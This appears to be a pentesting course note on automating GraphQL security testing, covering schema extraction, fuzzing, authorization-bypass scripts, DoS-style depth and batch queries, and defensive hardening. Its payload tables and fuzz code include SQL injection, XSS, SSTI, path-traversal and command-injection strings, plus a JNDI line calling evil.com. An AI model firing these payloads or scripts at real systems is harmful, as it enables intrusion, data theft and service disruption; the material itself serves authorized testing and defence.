



# GraphQL Automation

> **Module:** API Pentesting → Automation  
> **Difficulty:** Intermediate → Advanced  
> **Focus:** Automate GraphQL API security testing through discovery, analysis, and controlled vulnerability assessment during **authorized** security engagements.

---

## 1. Overview

**GraphQL automation** is the practice of using tools and scripts to systematically test GraphQL APIs for security vulnerabilities without requiring manual intervention for each operation, field, or mutation.

In traditional REST API testing, automation is usually straightforward because:

- endpoints are stable URLs
- methods are fixed (GET, POST, etc.)
- request/response shapes are predictable

GraphQL changes that mental model completely.

A GraphQL endpoint is **shape-shifting**. The client controls:

- which fields to request
- how deep to nest queries
- how many aliases to use
- which mutations to combine in a single request
- the complexity of the operation

That flexibility makes GraphQL powerful for developers and challenging for security testers who need to automate coverage.

If you remember one sentence from this note, remember this:

> **Automating GraphQL security means building tools that understand schemas, construct context-aware operations, and adapt to server responses — not just sending static payloads.**

### Why automation matters for GraphQL

Manual GraphQL testing becomes impractical when:

- the schema contains hundreds of types and fields
- operations require chained dependencies (user → organization → project → resource)
- mutations need valid authentication, session state, or nested input objects
- testing coverage must span authentication states, roles, and permissions
- regression testing is required after schema changes
- federation introduces multiple subgraphs with overlapping concerns

Automation solves those problems by:

- extracting and parsing the schema automatically
- constructing valid operations from type metadata
- identifying high-risk fields (admin mutations, sensitive queries)
- testing depth limits, batch abuse, and complexity controls
- fuzzing arguments and injecting test payloads systematically
- validating authorization boundaries at scale

---

## 2. The Automation Challenge — What Makes GraphQL Different

| Traditional REST automation | GraphQL automation challenge | What changes |
| --- | --- | --- |
| Static endpoint list | Single endpoint with infinite request shapes | Discovery becomes schema-based, not URL-based |
| Fixed HTTP methods | Dynamic operations defined by schema | Must construct valid queries/mutations from metadata |
| Predictable response structure | Client-selected field sets | Response validation must adapt to requested shape |
| Per-route authorization | Per-field or per-resolver authorization | Authorization testing becomes granular and combinatorial |
| Simple rate limiting | Cost-based limits and depth controls | Abuse testing must consider query complexity |
| Straightforward fuzzing | Type-aware arguments and nested input objects | Fuzzing must respect schema constraints to reach resolvers |

### The core automation workflow



---

## 3. Automation Maturity Model

Understanding where your automation effort sits on this spectrum helps set realistic expectations.

| Level | Name | Characteristics | Typical tools |
| --- | --- | --- | --- |
| **1** | Manual | Point-and-click testing with GraphiQL or Burp | GraphiQL, Altair, Burp Suite Repeater |
| **2** | Script-assisted | Custom scripts for specific operations | curl, Python requests, jq |
| **3** | Schema-aware scanning | Automated schema extraction and basic field enumeration | GraphQL Voyager, graphql-cop, InQL |
| **4** | Intelligent fuzzing | Type-aware payload injection and depth/batch testing | graphw00f, BatchQL, Clairvoyance |
| **5** | Continuous validation | CI/CD integration, regression testing, policy enforcement | GraphQL Inspector, Apollo Studio, custom frameworks |

Most GraphQL automation in security testing sits between **level 3** and **level 4**.

---

## 4. Schema Discovery and Extraction

Automation begins with understanding what the API exposes.

### 4.1 Introspection-based discovery

When introspection is enabled, automation is straightforward:

**Full schema dump:**

```graphql
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}

fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}

fragment InputValue on __InputValue {
  name
  description
  type { ...TypeRef }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
      }
    }
  }
}
```

**Automated extraction with common tools:**

| Tool | Command | Output |
| --- | --- | --- |
| `graphql-cli` | `graphql get-schema --endpoint URL` | SDL file |
| `apollo` | `apollo client:download-schema --endpoint=URL schema.json` | JSON introspection result |
| `InQL` (Burp) | Automated via extension | JSON schema + template queries |
| Custom script | `curl -X POST -H "Content-Type: application/json" --data '{"query":"..."}' URL` | JSON response |

### 4.2 Schema inference when introspection is disabled

Many production environments disable introspection. Automation must adapt.

**Common inference techniques:**

1. **Error-based discovery** — Send invalid queries and parse "Did you mean?" suggestions
2. **Field guessing** — Use common field names (`id`, `name`, `email`, `user`, `admin`)
3. **Clairvoyance-style probing** — Iteratively test type and field existence
4. **Client code analysis** — Extract operations from mobile apps or JavaScript bundles
5. **Documentation scraping** — Parse publicly available docs or changelogs

**Example — error-based field discovery:**

```bash
# Send an invalid field name
curl -X POST https://api.example.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ invalidFieldName }"}'

# Response may suggest:
# "Cannot query field 'invalidFieldName' on type 'Query'. Did you mean 'user', 'users', 'currentUser'?"
```

**Tool — Clairvoyance:**

```bash
# Automated schema reconstruction
python3 clairvoyance.py \
  -o schema.json \
  -w /path/to/wordlist.txt \
  https://api.example.com/graphql
```

---

## 5. Operation Generation

Once the schema is known, automation must construct **valid, executable operations**.

### 5.1 Query generation strategies

| Strategy | When to use | Example |
| --- | --- | --- |
| **Minimal field selection** | Quick enumeration of all fields | `{ users { id } }` |
| **Full field expansion** | Maximum data extraction | `{ users { id name email role createdAt } }` |
| **Nested traversal** | Test authorization on relationships | `{ user(id:1) { organization { projects { secrets } } } }` |
| **Deprecated field testing** | Find legacy vulnerabilities | `{ legacyAdminPanel { token } }` |
| **Alias batching** | Test rate limits and batch controls | `{ u1:user(id:1){id} u2:user(id:2){id} ... }` |

### 5.2 Mutation generation

Mutations require **valid input** to reach resolver logic. Automation must:

1. Identify required arguments
2. Generate realistic or boundary-case values
3. Handle nested input objects
4. Respect type constraints (enums, non-null fields)

**Example — automated mutation construction:**

```graphql
# Schema defines:
# mutation {
#   updateUser(id: ID!, input: UpdateUserInput!): User
# }
# 
# input UpdateUserInput {
#   name: String
#   email: String!
#   role: UserRole
# }
#
# enum UserRole { USER, ADMIN, MODERATOR }

# Automated test mutation:
mutation AutomatedTest {
  updateUser(
    id: "1",
    input: {
      email: "test@example.com",
      role: ADMIN  # Authorization boundary test
    }
  ) {
    id
    role
  }
}
```

### 5.3 Smart defaults and fuzzing values

Good automation uses **context-aware defaults**:

| Argument type | Safe default | Fuzzing variant |
| --- | --- | --- |
| `ID` | `"1"` | `"-1"`, `"999999"`, `"' OR 1=1--"` |
| `String` | `"test"` | `"<script>alert(1)</script>"`, `"${7*7}"`, `"../../../etc/passwd"` |
| `Int` | `1` | `-1`, `2147483647`, `0` |
| `Boolean` | `true` | `null` (if nullable) |
| `Enum` | First valid value | N/A (must be valid) |
| `[String]` | `["test"]` | `["a"]*1000` (batch abuse) |

---

## 6. Key Automation Use Cases

### 6.1 Authorization boundary testing

**Goal:** Verify that low-privilege users cannot access high-privilege data.

**Automation approach:**

1. Extract all queries and mutations from schema
2. Execute each operation with different authentication contexts
3. Compare responses across privilege levels
4. Flag operations that return data inappropriately

**Example workflow:**



**Tool example — GraphQL Cop:**

```bash
graphql-cop -t https://api.example.com/graphql
```

### 6.2 Injection testing

**Goal:** Identify SQL injection, NoSQL injection, command injection, or SSTI in resolver implementations.

**Automation approach:**

1. Identify all `String` and `ID` arguments
2. Inject payloads systematically
3. Monitor for error messages, time delays, or out-of-band callbacks

**Payload categories:**

| Injection type | Example payload | Detection method |
| --- | --- | --- |
| SQL injection | `' OR '1'='1` | Error messages, data leakage |
| NoSQL injection | `{"$gt":""}` | Unauthorized data returned |
| Command injection | `; sleep 10` | Response time increase |
| SSTI | `{{7*7}}` | `49` in response |
| Path traversal | `../../../../etc/passwd` | File content in response |

**Automated injection with Burp Intruder:**

1. Capture a valid GraphQL request
2. Mark string arguments as injection points
3. Load payload list (SQL, XSS, SSTI, etc.)
4. Run attack and filter for anomalies

### 6.3 Depth and complexity abuse

**Goal:** Test whether the server enforces query depth limits, complexity analysis, or execution timeouts.

**Automation approach:**

Generate progressively deeper or wider queries and observe server behavior.

**Depth bomb example:**

```graphql
query DepthTest {
  user {
    organization {
      projects {
        tasks {
          comments {
            author {
              organization {
                projects {
                  # ... continue nesting
                }
              }
            }
          }
        }
      }
    }
  }
}
```

**Breadth bomb example:**

```graphql
query BatchTest {
  u1: user(id: 1) { id name email organization { name } }
  u2: user(id: 2) { id name email organization { name } }
  u3: user(id: 3) { id name email organization { name } }
  # ... repeat 1000 times
}
```

**Tool — BatchQL:**

```bash
# Generate batch query abuse payloads
python3 batch_attack.py \
  --target https://api.example.com/graphql \
  --query "{ user(id: ID_PLACEHOLDER) { id email } }" \
  --batch-size 100
```

### 6.4 Rate limit and cost control validation

**Goal:** Verify that expensive operations cannot be abused to cause denial of service.

**Test dimensions:**

- Requests per second
- Total fields per request
- Nested depth
- Alias count
- Array size in list arguments

**Example — cost explosion through nested lists:**

```graphql
query ExpensiveQuery {
  users(limit: 1000) {
    id
    posts(limit: 1000) {
      id
      comments(limit: 1000) {
        id
      }
    }
  }
}
# Potential cost: 1000 * 1000 * 1000 = 1 billion resolver calls
```

### 6.5 Information disclosure

**Goal:** Detect unintended data exposure through verbose errors, stack traces, or over-permissive fields.

**Automation checks:**

- Send malformed queries and inspect error details
- Request deprecated fields
- Query system fields (`__typename`, `__schema`) without authentication
- Compare anonymous vs. authenticated schema visibility

**Example — stack trace detection:**

```bash
# Trigger an intentional error
curl -X POST https://api.example.com/graphql \
  -d '{"query":"{ user(id: \"INVALID\") { id } }"}' \
  | jq '.errors[] | select(.extensions.exception)'
```

If `exception` key contains stack traces or internal paths, that's an information disclosure finding.

---

## 7. Automation Tools and Frameworks

### 7.1 Reconnaissance and schema extraction

| Tool | Purpose | Language | Key features |
| --- | --- | --- | --- |
| **GraphQL Voyager** | Schema visualization | JavaScript | Interactive graph of types and relationships |
| **InQL** | Burp Suite extension | Python/Java | Schema extraction, query templates, scanner integration |
| **graphql-cop** | Security scanner | Python | Basic vulnerability checks (introspection, suggestions, etc.) |
| **Clairvoyance** | Schema inference without introspection | Python | Wordlist-based field discovery |
| **graphw00f** | GraphQL fingerprinting | Python | Identifies server technology (Apollo, Hasura, etc.) |

### 7.2 Fuzzing and injection

| Tool | Purpose | Use case |
| --- | --- | --- |
| **Burp Suite Intruder** | Payload injection | Inject SQLi, XSS, SSTI into arguments |
| **GraphQLmap** | Automated exploitation | Injection, IDOR, batch attacks |
| **BatchQL** | Batch query abuse | Generate alias-heavy queries for DoS testing |
| **GraphQL IDE + custom scripts** | Flexible manual automation | Use Insomnia/Postman with scripted collections |

### 7.3 Continuous validation and CI/CD integration

| Tool | Purpose | Integration |
| --- | --- | --- |
| **GraphQL Inspector** | Schema diffing and validation | CI pipelines (GitHub Actions, GitLab CI) |
| **Apollo Studio** | Schema governance | Cloud-based monitoring and alerts |
| **GraphQL ESLint** | Enforce query best practices | Pre-commit hooks, CI |
| **Custom test suites** | Regression testing | Jest, Mocha, Pytest with GraphQL clients |

### 7.4 Example — graphql-cop workflow

```bash
# Install
pip3 install graphql-cop

# Run against target
graphql-cop -t https://api.example.com/graphql -o report.html

# Checks performed:
# - Introspection enabled
# - Field suggestions enabled
# - GraphiQL/Playground exposed
# - Alias batching limits
# - Directive overloading
# - Circular query support
```

### 7.5 Example — InQL Burp extension workflow

1. Install InQL from BApp Store
2. Browse to GraphQL endpoint in Burp
3. Right-click → InQL → Send to InQL Scanner
4. InQL extracts schema and generates query templates
5. Review suggested operations in InQL tab
6. Send high-value operations to Intruder for fuzzing

---

## 8. Building Custom Automation

Sometimes off-the-shelf tools aren't enough. Here's how to build your own.

### 8.1 Python automation template

```python
import requests
import json

# Configuration
ENDPOINT = "https://api.example.com/graphql"
HEADERS = {
    "Content-Type": "application/json",
    "Authorization": "Bearer YOUR_TOKEN_HERE"
}

def introspect_schema():
    """Fetch full schema via introspection."""
    query = """
    query IntrospectionQuery {
      __schema {
        types {
          name
          kind
          fields {
            name
            type { name kind ofType { name kind } }
          }
        }
      }
    }
    """
    response = requests.post(ENDPOINT, json={"query": query}, headers=HEADERS)
    return response.json()

def test_operation(operation):
    """Execute a GraphQL operation and return response."""
    response = requests.post(ENDPOINT, json={"query": operation}, headers=HEADERS)
    return response.json()

def generate_queries(schema):
    """Generate test queries from schema types."""
    queries = []
    for type_def in schema['data']['__schema']['types']:
        if type_def['kind'] == 'OBJECT' and type_def['fields']:
            for field in type_def['fields']:
                # Simple query generation
                query = f"{{ {field['name']} }}"
                queries.append(query)
    return queries

def detect_vulnerabilities(response):
    """Analyze response for security issues."""
    issues = []
    
    # Check for stack traces
    if 'errors' in response:
        for error in response['errors']:
            if 'exception' in error.get('extensions', {}):
                issues.append("Stack trace disclosure detected")
    
    # Check for unauthorized data
    if 'data' in response and response['data'] is not None:
        # Add your business logic here
        pass
    
    return issues

# Main workflow
if __name__ == "__main__":
    print("[*] Fetching schema...")
    schema = introspect_schema()
    
    print("[*] Generating test queries...")
    queries = generate_queries(schema)
    
    print(f"[*] Testing {len(queries)} operations...")
    for query in queries[:10]:  # Limit for demo
        print(f"[+] Testing: {query}")
        response = test_operation(query)
        issues = detect_vulnerabilities(response)
        if issues:
            print(f"[!] Issues found: {issues}")
```

### 8.2 Advanced: Type-aware fuzzing

```python
def generate_fuzz_value(graphql_type):
    """Generate context-aware fuzz payloads."""
    payloads = {
        "String": [
            "test",
            "' OR '1'='1",
            "<script>alert(1)</script>",
            "{{7*7}}",
            "../../../etc/passwd",
            "${jndi:ldap://evil.com/a}"
        ],
        "Int": [1, -1, 0, 2147483647, -2147483648],
        "ID": ["1", "-1", "admin", "' OR 1=1--"],
        "Boolean": [True, False]
    }
    return payloads.get(graphql_type, ["test"])

def fuzz_mutation(mutation_name, args, schema):
    """Generate fuzz cases for a mutation."""
    test_cases = []
    for arg_name, arg_type in args.items():
        for fuzz_value in generate_fuzz_value(arg_type):
            mutation = f"""
            mutation Fuzz {{
              {mutation_name}({arg_name}: {json.dumps(fuzz_value)}) {{
                id
              }}
            }}
            """
            test_cases.append(mutation)
    return test_cases
```

### 8.3 Parallel execution for scale

```python
from concurrent.futures import ThreadPoolExecutor, as_completed

def test_operations_parallel(operations, max_workers=10):
    """Execute multiple operations concurrently."""
    results = []
    with ThreadPoolExecutor(max_workers=max_workers) as executor:
        future_to_op = {
            executor.submit(test_operation, op): op 
            for op in operations
        }
        for future in as_completed(future_to_op):
            op = future_to_op[future]
            try:
                result = future.result()
                results.append((op, result))
            except Exception as e:
                print(f"[!] Error testing {op}: {e}")
    return results
```

---

## 9. Defensive Automation — CI/CD Integration

Security automation isn't just for offense. Defenders can automate GraphQL validation too.

### 9.1 Schema regression testing

**Goal:** Detect accidental exposure of sensitive fields or breaking changes.

**GitHub Actions example:**

```yaml
name: GraphQL Schema Validation

on:
  pull_request:
    paths:
      - 'schema/**'

jobs:
  validate:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      
      - name: Install GraphQL Inspector
        run: npm install -g @graphql-inspector/cli
      
      - name: Compare schemas
        run: |
          graphql-inspector diff \
            schema/production.graphql \
            schema/staging.graphql
      
      - name: Detect dangerous changes
        run: |
          # Fail if admin fields were added without approval
          graphql-inspector validate schema/*.graphql \
            --deprecated \
            --maxDepth 10
```

### 9.2 Policy enforcement

**Goal:** Ensure all mutations have authorization decorators or all list fields have pagination.

**Custom validation script:**

```python
import re

def validate_schema_policies(schema_sdl):
    """Enforce security policies on SDL."""
    issues = []
    
    # Check: All mutations must have @auth directive
    mutations = re.findall(r'type Mutation \{([^}]+)\}', schema_sdl, re.DOTALL)
    if mutations:
        for mutation in mutations[0].split('\n'):
            if mutation.strip() and '@auth' not in mutation:
                issues.append(f"Missing @auth: {mutation.strip()}")
    
    # Check: List fields must have pagination args
    list_fields = re.findall(r'\w+\s*:\s*\[.*?\]', schema_sdl)
    for field in list_fields:
        # Check if field has (limit: Int) argument
        # Simplified check - real implementation would parse properly
        if 'limit' not in field.lower():
            issues.append(f"Missing pagination on list field: {field}")
    
    return issues

# Usage in CI
schema = open('schema.graphql').read()
issues = validate_schema_policies(schema)
if issues:
    print("Schema policy violations:")
    for issue in issues:
        print(f"  - {issue}")
    exit(1)
```

### 9.3 Continuous monitoring



---

## 10. Real-World Automation Workflow

Here's how a professional security tester might approach a GraphQL API during an authorized assessment:

### Phase 1: Reconnaissance (automated)

```bash
# Step 1: Identify GraphQL endpoint
graphw00f -t https://example.com

# Step 2: Attempt introspection
curl -X POST https://example.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { queryType { name } } }"}' \
  | jq .

# Step 3: If introspection fails, try inference
python3 clairvoyance.py \
  -o schema.json \
  -w wordlist.txt \
  https://example.com/graphql

# Step 4: Visualize schema
graphql-voyager schema.json
```

### Phase 2: Attack surface mapping (semi-automated)

```python
# Script: analyze_schema.py
import json

schema = json.load(open('schema.json'))

print("\n[*] High-value targets:")

# Find admin/sensitive mutations
for type_def in schema['data']['__schema']['types']:
    if type_def['name'] == 'Mutation':
        for field in type_def.get('fields', []):
            name = field['name'].lower()
            if any(kw in name for kw in ['admin', 'delete', 'disable', 'export', 'secret']):
                print(f"  [!] {field['name']}")

# Find deprecated fields (legacy risk)
print("\n[*] Deprecated fields:")
for type_def in schema['data']['__schema']['types']:
    for field in type_def.get('fields', []):
        if field.get('isDeprecated'):
            print(f"  [-] {type_def['name']}.{field['name']}")
```

### Phase 3: Vulnerability testing (automated)

```bash
# Authorization boundary test
python3 authz_test.py \
  --endpoint https://example.com/graphql \
  --low-priv-token "user_token" \
  --high-priv-token "admin_token" \
  --schema schema.json

# Injection fuzzing via Burp Intruder
# (Configure manually with payloads)

# Depth/batch abuse
python3 batchql.py \
  --target https://example.com/graphql \
  --depth-test 20 \
  --batch-test 500
```

### Phase 4: Reporting (semi-automated)

```python
# Generate findings report
findings = {
    "introspection": "Enabled for anonymous users",
    "authz_bypass": ["updateUser allows privilege escalation", "deleteOrg missing authz check"],
    "injection": ["SQL injection in searchUsers(query: String)"],
    "dos": ["No depth limit enforced - 15+ levels allowed"]
}

# Output as Markdown or JSON
for category, issues in findings.items():
    print(f"\n## {category.upper()}")
    if isinstance(issues, list):
        for issue in issues:
            print(f"- {issue}")
    else:
        print(f"- {issues}")
```

---

## 11. Common Pitfalls in GraphQL Automation

| Pitfall | Why it happens | How to avoid |
| --- | --- | --- |
| **Schema changes break scripts** | Automation assumes fixed schema | Parse schema dynamically on each run |
| **Auth tokens expire mid-test** | Long test runs with short-lived tokens | Implement token refresh logic |
| **Rate limiting blocks automation** | Too aggressive request pacing | Add delays, use multiple IPs, or coordinate with client |
| **False positives from validation errors** | Expecting data when query is malformed | Distinguish between validation errors and security findings |
| **Missing nested authorization** | Only testing top-level fields | Generate deep nested queries to test resolver chains |
| **Type mismatches cause failures** | Fuzzing ignores type constraints | Use type-aware payload generation |

---

## 12. Ethical and Legal Considerations

GraphQL automation can be powerful and invasive. Always ensure:

- [ ] You have **written authorization** to test the target
- [ ] Testing is scoped to **approved environments** (not production unless explicitly permitted)
- [ ] Automation respects **rate limits** and does not cause service degradation
- [ ] You **do not** exfiltrate real user data
- [ ] You **coordinate** with the security and operations teams
- [ ] You **document** all tests performed for audit trails

**Remember:**

> **Automated testing without authorization is illegal and unethical, regardless of how sophisticated or "safe" the tooling claims to be.**

---

## 13. Detection — How Defenders Spot GraphQL Automation

| Indicator | What defenders see | Defensive response |
| --- | --- | --- |
| High volume of introspection queries | Repeated `__schema` or `__type` requests | Monitor and alert on schema query patterns |
| Unusual query depth | Requests with 10+ levels of nesting | Enforce depth limits, log violations |
| Alias batching | Hundreds of aliased fields in one request | Implement alias/batch limits |
| Sequential ID enumeration | `user(id:1)`, `user(id:2)`, ... | Rate limit, add authentication, use UUIDs |
| Consistent error triggering | Repeated validation errors from same IP | Throttle error responses, CAPTCHA gates |
| Non-browser User-Agent with automation patterns | `python-requests`, `curl`, custom scripts | Require valid session/CSRF tokens |

**Recommended logging:**

```json
{
  "timestamp": "2024-01-15T10:30:00Z",
  "source_ip": "203.0.113.42",
  "operation_name": "IntrospectionQuery",
  "query_depth": 8,
  "field_count": 245,
  "alias_count": 0,
  "execution_time_ms": 1234,
  "errors": [],
  "auth_context": "anonymous"
}
```

---

## 14. Defensive Recommendations

### For defenders facing GraphQL automation threats:

| Control | Implementation | Effectiveness |
| --- | --- | --- |
| **Disable introspection in production** | Set `introspection: false` in server config | Reduces reconnaissance surface |
| **Enforce query depth limits** | Max 7-10 levels depending on schema | Prevents depth bombs |
| **Implement cost analysis** | Assign cost to fields, reject expensive queries | Prevents resource exhaustion |
| **Rate limit by identity, not just IP** | Track request count per user/session | Stops authenticated automation abuse |
| **Use persisted queries** | Allowlist approved operations for first-party clients | Eliminates arbitrary query construction |
| **Monitor anomalous patterns** | Alert on introspection spikes, deep queries, batch abuse | Early warning of testing or attacks |
| **Apply CSRF protections** | Require custom headers or tokens | Blocks simple scripted attacks |

### Example — Apollo Server hardening:

```javascript
const { ApolloServer } = require('apollo-server');
const depthLimit = require('graphql-depth-limit');
const { createComplexityLimitRule } = require('graphql-validation-complexity');

const server = new ApolloServer({
  typeDefs,
  resolvers,
  
  // Disable introspection in production
  introspection: process.env.NODE_ENV !== 'production',
  
  // Disable GraphQL Playground in production
  playground: process.env.NODE_ENV !== 'production',
  
  // Validation rules
  validationRules: [
    depthLimit(10),  // Max query depth
    createComplexityLimitRule(1000, {
      onCost: (cost) => console.log('Query cost:', cost)
    })
  ],
  
  // Format errors - hide stack traces
  formatError: (err) => {
    if (process.env.NODE_ENV === 'production') {
      // Don't leak internals
      return new Error('Internal server error');
    }
    return err;
  }
});
```

---

## 15. Tools Reference Table

| Category | Tool | Language | License | Key use case |
| --- | --- | --- | --- | --- |
| **Recon** | graphw00f | Python | MIT | Fingerprint GraphQL engine |
| **Recon** | InQL | Python | GPL | Burp extension for schema extraction |
| **Recon** | GraphQL Voyager | JS | MIT | Visualize schema relationships |
| **Inference** | Clairvoyance | Python | MIT | Reconstruct schema without introspection |
| **Scanner** | graphql-cop | Python | MIT | Basic security checks |
| **Fuzzing** | GraphQLmap | Python | MIT | Injection and IDOR testing |
| **Abuse** | BatchQL | Python | MIT | Batch query DoS testing |
| **Defense** | GraphQL Inspector | JS | MIT | Schema diff and validation |
| **Defense** | Apollo Studio | SaaS | Commercial | Schema governance and monitoring |

---

## 16. Example Use Case — Full Automation Script

**Scenario:** Test all mutations for authorization bypass across two user roles.

```python
#!/usr/bin/env python3
import requests
import json

ENDPOINT = "https://api.example.com/graphql"

TOKENS = {
    "user": "Bearer user_token_here",
    "admin": "Bearer admin_token_here"
}

def get_schema():
    """Fetch schema via introspection."""
    query = """
    query {
      __schema {
        mutationType {
          fields {
            name
            args {
              name
              type { name kind ofType { name } }
            }
          }
        }
      }
    }
    """
    resp = requests.post(ENDPOINT, json={"query": query})
    return resp.json()

def generate_mutation_tests(schema):
    """Create test mutations for each field."""
    tests = []
    mutations = schema['data']['__schema']['mutationType']['fields']
    
    for mutation in mutations:
        # Generate minimal valid mutation
        args_str = ""
        if mutation['args']:
            # Use dummy values
            args_list = []
            for arg in mutation['args']:
                type_name = arg['type']['name'] or arg['type']['ofType']['name']
                if type_name == 'String':
                    args_list.append(f'{arg["name"]}: "test"')
                elif type_name == 'Int':
                    args_list.append(f'{arg["name"]}: 1')
                elif type_name == 'ID':
                    args_list.append(f'{arg["name"]}: "1"')
            args_str = ", ".join(args_list)
        
        mutation_query = f"""
        mutation Test {{
          {mutation['name']}({args_str}) {{
            __typename
          }}
        }}
        """
        tests.append((mutation['name'], mutation_query))
    
    return tests

def test_authorization(mutation_name, mutation_query):
    """Test mutation with both user roles."""
    results = {}
    
    for role, token in TOKENS.items():
        headers = {
            "Authorization": token,
            "Content-Type": "application/json"
        }
        resp = requests.post(ENDPOINT, 
                           json={"query": mutation_query},
                           headers=headers)
        results[role] = resp.json()
    
    # Check for authz bypass
    user_success = 'data' in results['user'] and results['user']['data'] is not None
    admin_success = 'data' in results['admin'] and results['admin']['data'] is not None
    
    if user_success and not admin_success:
        print(f"[!] FINDING: {mutation_name} - User succeeded but admin failed (unusual)")
    elif user_success and admin_success:
        print(f"[?] REVIEW: {mutation_name} - Both user and admin succeeded (check if intended)")
    
    return results

def main():
    print("[*] Fetching schema...")
    schema = get_schema()
    
    print("[*] Generating mutation tests...")
    tests = generate_mutation_tests(schema)
    
    print(f"[*] Testing {len(tests)} mutations for authorization bypass...\n")
    
    for mutation_name, mutation_query in tests:
        print(f"[+] Testing: {mutation_name}")
        test_authorization(mutation_name, mutation_query)
    
    print("\n[*] Testing complete.")

if __name__ == "__main__":
    main()
```

---

## 17. Future of GraphQL Automation

Emerging trends in GraphQL security automation:

| Trend | Description | Maturity |
| --- | --- | --- |
| **AI-powered query generation** | Use LLMs to generate realistic, business-logic-aware test cases | Early research |
| **Federated graph testing** | Automate testing across subgraph boundaries | Growing adoption |
| **Runtime policy enforcement** | Dynamic authorization via OPA, Cedar, or custom engines | Production-ready |
| **Chaos engineering for GraphQL** | Inject faults into resolvers to test resilience | Emerging |
| **GraphQL fuzzing frameworks** | Type-aware, coverage-guided fuzzing | Active development |

---

## 18. Summary Checklist

Use this checklist for your next GraphQL automation engagement:

```text
[ ] Obtain written authorization and define scope
[ ] Identify GraphQL endpoint and technology stack
[ ] Attempt schema introspection
[ ] If introspection disabled, perform schema inference
[ ] Extract and parse schema to JSON/SDL
[ ] Identify high-value operations (admin mutations, sensitive queries)
[ ] Test authorization boundaries across roles
[ ] Fuzz arguments for injection vulnerabilities
[ ] Test depth limits and batch abuse controls
[ ] Validate rate limiting and cost controls
[ ] Check for information disclosure in errors
[ ] Test deprecated fields for legacy vulnerabilities
[ ] Document findings with proof-of-concept queries
[ ] Provide remediation recommendations
[ ] Deliver comprehensive report
```

---

## 19. If You Remember Only One Thing

> **GraphQL automation is not about sending more requests faster — it's about intelligently constructing schema-aware, context-sensitive operations that expose security boundaries defenders may have missed.**  
> Effective automation requires understanding the schema, respecting authorization contexts, and adapting to server responses. Always operate within authorized scope.

---

## 20. References and Further Reading

Public sources used for this note:

1. **GraphQL.org — Learn: Security**
   - Official guidance on introspection, authorization, rate limiting, and query complexity.
2. **OWASP GraphQL Cheat Sheet**
   - Comprehensive defensive recommendations including automation threats.
3. **Apollo GraphQL Blog — Securing Your GraphQL API**
   - Discusses depth limiting, persisted queries, and cost analysis.
4. **HackerOne GraphQL Disclosure Reports**
   - Real-world examples of authorization bypass, injection, and IDOR in GraphQL APIs.
5. **PortSwigger Research — GraphQL Security**
   - Testing methodologies and lab scenarios for GraphQL vulnerabilities.
6. **GitHub — graphql-cop**
